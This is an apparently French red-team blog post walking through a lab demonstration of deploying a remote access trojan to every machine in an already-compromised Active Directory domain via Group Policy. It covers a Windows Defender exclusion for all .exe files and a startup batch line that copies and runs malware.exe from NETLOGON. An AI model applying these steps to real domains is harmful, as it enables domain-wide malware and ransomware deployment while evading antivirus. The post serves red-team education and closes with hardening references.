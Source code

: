 ```yaml
---
published: true
layout: post
title: "Une GPO pour les gouverner tous : Compromettre n'importe quel poste de l'Active Directory via une GPO"
description: "Cet article décrit comment compromettre un poste de l'Active Directory via une GPO."
lang: fr_FR
category: redteam,malware,active directory,gpo
---
```

![Compromission d'un poste de l'Active Directory via une GPO](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/illustration.PNG)

L'objectif principal d'Active Directory est de fournir des services centralisés d'identification et d'authentification à un réseau d'ordinateurs utilisant le système Windows, macOS ou encore Linux. Il permet également l'attribution et **l'application de stratégies de groupes** ainsi que **l'installation de mises à jour critiques** par les administrateurs.
L'Active Directory est donc le nerd de la guerre du pentester Red Team. En cas de compromissions de ce dernier, la partie est gagnée. L'attaquant peut alors rebondir sur les différents postes du domaine compromis.

## Exploitation de l'Active Directory pour installer un malware via un GPO
Dans cet article, je pars du postulat que **l'Active Directory est déjà compromis** et je m'intéresse donc à l'utilisation des stratgéies de groupe.
L'idée est ici de déployer un malware sur tous les systèmes de l'Active Directory (ou un seul pour cibler un utilisateur en particulier). Bon mon lab est assez petit car il ne se compose que d'un **Windows Server 2019 (Contrôleur de domaine)** et d'un **Windows 10** tous deux dans le domaine **mondomaine.local**.

### Création de la GPO malveillante
La première étape est de créer la GPO malveillante que je nommerai...*Installation Malware* qui est effective sur le domaine *mondomaine.local* et s'applique à **tous les utilisateurs authentifiés** :

[![Création de la GPO malveillante](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/creation_gpo.PNG)](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/creation_gpo.PNG)

### Exclusion de la détection du malware
Une des politiques de sécurité appliquée sera d'exclure la détection des fichiers ayant pour extension *.exe*.

Il faut donc dans la partie *Compostants Windows* -> *Antivirus Windows Defender* -> *Exclusions* -> *Exclusion d'extensions*, créer une règle d'exclusion sur le *.exe*.

[![Exclusion de la détection des fichiers .exe](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/creation_exclusion.PNG)](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/creation_exclusion.PNG)

Tout exécutable **normalement détecté par Windows Defender** pourra ainsi être **exécuté sans être bloqué** par Windows Defender.

### Création du malware exécuté sur le poste de la cible
Pour l'exemple, j'utiliserai l'outil d'administration à distance (*Remote Administration Tool* ou *RAT*) [Quasar](https://github.com/quasar/Quasar) qui est libre et open source. Le *malware.exe* doit être placé dans le répertoire *C:\Windows\SYSVOL\sysvol\mondomaine.local\scripts*. Ce dossier est un partage administratif qui sera disponible sur le poste des utilisateurs du domaine à l'emplacement suivant `\\mondomaine.local\NETLOGON\\malware.exe`
Le malware aurait également pu être une charge *CobaltStrike*, un *reverse shell* ou tout autre exécutable / script comme un ransomware.

### Création du script de téléchargement du malware
Un script d'exécution doit être créé pour télécharger le logiciel malveillant. Le contenu du script à exécuter au démarrage du poste est le suivant :

```bat
copy \\mondomaine.local\NETLOGON\\malware.exe C:\Windows\malware.exe && C:\Windows\malware.exe
```
Le script doit également être placé dans le partage administratif :

[![Placement des logiciels malveillants dans SYSVOL](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/sysvol.PNG)](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/sysvol.PNG)

### Création de la GPO qui exécutera le script

La GPO qui exécutera le script au démarrage de l'ordinateur doit maintenant être créée. Pour ce faire, la catégorie *Paramètre Windows* -> *Scripts (démarrage/arrêt)* va être utilisée. Il faut alors spécifier le script en question qui sera démarré :

[![Création de la GPO qui exécute le script de téléchargement du malware](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/creation_gpo_execution_malware.PNG)](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/creation_gpo_execution_malware.PNG)

Une fois le rédarrage de l'ordinateur, le script est alors exécuté qui lui même téléchargera le logiciel malveillant et l'exécutera. Du côté de l'attaquant, la victime est alors visible :

[![Liste des PC compromis](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/liste_pc_compromis.PNG)](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/liste_pc_compromis.PNG)

## Conclusion
Cet exemple d'exploitation prouve que le contrôleur de domaine est vraiment une pièce maîtresse du réseau d'entreprise et qu'il doit être protégé au maximum. Il y a plein d'autres scénarii imaginables.

De nombreuses recommandations sont disponibles pour sécuriser un Active Directory et cet exemple est trop vaste pour lister une recommandation précise.
L'ANSSI a publié un [guide](https://www.ssi.gouv.fr/guide/recommandations-de-securite-relatives-a-active-directory/) qui a pour objectif de fournir des recommandations et des procédures permettant la sécurisation d’un annuaire Active Directory.